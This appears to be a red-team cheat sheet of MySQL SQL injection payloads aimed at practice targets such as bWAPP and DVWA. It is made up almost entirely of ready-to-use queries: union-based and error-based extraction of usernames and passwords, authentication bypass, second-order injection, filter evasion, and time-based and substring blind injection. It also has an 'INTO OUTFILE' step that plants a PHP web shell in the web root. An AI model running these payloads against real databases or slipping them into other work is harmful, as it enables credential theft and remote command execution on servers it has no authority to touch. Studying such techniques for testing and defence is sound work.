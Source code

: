 ## Classic SQL Injection
| **Command** | **Description** |
| --------------|-------------------|
| `database()` | Prints the current database |
| `user()`  | Print the current user |
| `@@version` | Print the version of the database |
| `@@datadir` | Print the path where the mysql server is located |



### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
http://demo.ine.local/sqli_2.php?movie=99 UNION SELECT NULL, @@datadir, @@version, @@version, NULL, NULL, NULL&action=go
```


```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
' AND (SELECT 1 from(Select count(*), concat("Hello ", version()," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from(Select count(*), concat("Hello ", (select distinct(column_name) from information_schema.columns where table_schema="bWAPP" and table_name='users' limit 3,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select password from bWAPP.users limit 0,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select login from bWAPP.users limit 1,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #


```

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99'
mysql> select * from users where user='admin' and password='blah' OR 1=1 limit 5,1 # 5f4dcc3b5aa765d61d8327deb882cf99'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;

a' UNION SELECT 1, "<?php system($_GET['cmd']) ?>",1,1,1,1,1 INTO OUTFILE "/var/www/bWAPP/images/yabadooo.php" -- -
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

## Substring
```sql
' OR SUBSTRING(database(),1,1) = 'a
' OR SUBSTRING(database(),1,1) = 'b
' OR SUBSTRING(database(),1,1) = 'c
```